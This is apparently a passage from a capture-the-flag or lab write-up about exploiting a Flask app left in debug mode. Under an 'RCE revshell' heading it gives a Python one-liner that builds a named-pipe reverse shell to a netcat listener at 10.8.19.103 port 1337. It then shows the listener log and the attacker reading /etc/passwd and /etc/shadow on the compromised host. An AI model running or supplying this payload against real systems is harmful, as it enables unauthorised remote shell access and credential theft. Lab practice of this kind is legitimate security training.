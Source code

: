 ```
    db.session.commit()
    return redirect(url_for("index"))


if __name__ == "__main__":
    db.create_all()
    app.run(host='0.0.0.0', port=5000, debug=True)

RCE
revshell

import os; print(os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.19.103 1337 >/tmp/f").read())

┌──(witty㉿kali)-[~/Downloads]
└─$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.8.19.103] from (UNKNOWN) [10.10.89.200] 34447
sh: can't access tty; job control turned off
/usr/src/app # cd /tmp
/tmp # ls
f
/tmp # cat /etc/passwd
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
/tmp # cat /etc/shadow
root:*::0:::::
bin:!::0:::::
daemon:!::0:::::
adm:!::0:::::
lp:!::0:::::
sync:!::0:::::
shutdown:!::0:::::
halt:!::0:::::
mail:!::0:::::
news:!::0:::::
uucp:!::0:::::
operator:!::0:::::
```